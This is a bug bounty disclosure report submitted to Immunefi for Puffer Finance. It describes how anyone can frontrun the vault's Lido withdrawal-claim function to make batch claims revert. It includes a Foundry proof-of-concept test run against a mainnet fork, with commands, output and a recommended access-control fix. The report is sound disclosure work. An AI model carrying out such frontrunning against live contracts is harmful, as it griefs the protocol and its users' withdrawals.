
# User can frontrun claim transaction to make claim failed if the protocol wants to claim multiple request Id in batch.

Submitted on Feb 24th 2024 at 06:46:29 UTC by @ladboy233 for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28698

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
https://etherscan.io/address/0x39ca0a6438b6050ea2ac909ba65920c7451305c1#code#F1#L106

```
  function claimWithdrawalsFromLido(uint256[] calldata requestIds) external virtual {
        VaultStorage storage $ = _getPufferVaultStorage();

        // Tell our receive() that we are doing a Lido claim
        $.isLidoWithdrawal = true;

        for (uint256 i = 0; i < requestIds.length; ++i) {
            bool isValidWithdrawal = $.lidoWithdrawals.remove(requestIds[i]);
            if (!isValidWithdrawal) {
                revert InvalidWithdrawal();
            }

            // slither-disable-next-line calls-loop
            _LIDO_WITHDRAWAL_QUEUE.claimWithdrawal(requestIds[i]);
        }

        // Reset back the value
        $.isLidoWithdrawal = false;
        emit ClaimedWithdrawals(requestIds);
    }
```

Once the admin request the claim via LIDO withdrawal queue

anyone can call the function claimWithdrawalsFromLido and pass in an array of requests Ids to claim the ETH.

the code loops through the request  Ids and call 

```
_LIDO_WITHDRAWAL_QUEUE.claimWithdrawal(requestIds[i]);
```

one by one,

the problem is that suppose admin / protocol wants to withdraw using request Id [10000, 10001 and 10002]

malicious user can frontrun the claimWithdrawalsFromLido and calls the function with only the request Id [10000]

then when the admin's request execute, the whole transaction will revert because we cannot withdraw ETH using the request id 10000 twice.

the recommendation is adding access control to the function claimWithdrawalsFromLido

## Proof of concept
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

interface ILidoWithdrawalQueue {
    function requestWithdrawals(uint256[] calldata _amounts, address _owner)
        external
        returns (uint256[] memory requestIds);

    function claimWithdrawal(uint256 _requestId) external;
}


contract CounterTest is Test {

    function setUp() public {

    }

    function withdrawETH(uint256[] memory requestIds) public {

        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;
        
        vm.startPrank(user);

        for (uint256 i = 0; i < requestIds.length; i++) {
            ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);
            lido.claimWithdrawal(requestIds[i]);
        }

        vm.stopPrank();

    }

    function testWithdrawalRegular() public {

        // block number 19290411
    
        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;

        ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        withdrawETH(requestIds);

    }

    function testWithdrawalFrontrun() public {

        // block number 19290411
    
        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;

        ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        uint256[] memory frontrunIds = new uint256[](1);
        frontrunIds[0] = 27139;

        withdrawETH(frontrunIds);

        withdrawETH(requestIds);

    }
}
```

first we can run

```
forge test -vvv --match-test "testWithdrawalRegular" --fork-url https://eth.llamarpc.com --fork-block-number 19290411
```
and the output is

```
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/Counter.t.sol:CounterTest
[PASS] testWithdrawalRegular() (gas: 85592)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.00ms
```

that is fine, user wants to withdraw with request id 27139 and 27140

However, if we run 

```
forge test -vvv --match-test "testWithdrawalFrontrun" --fork-url https://eth.llamarpc.com --fork-block-number 19290411
```

transaction revert, because before user withdraw with request id [27139, 27140]

user can frontrun and only withdraw [27139]

```
      uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        uint256[] memory frontrunIds = new uint256[](1);
        frontrunIds[0] = 27139;

        withdrawETH(frontrunIds);

        withdrawETH(requestIds);
```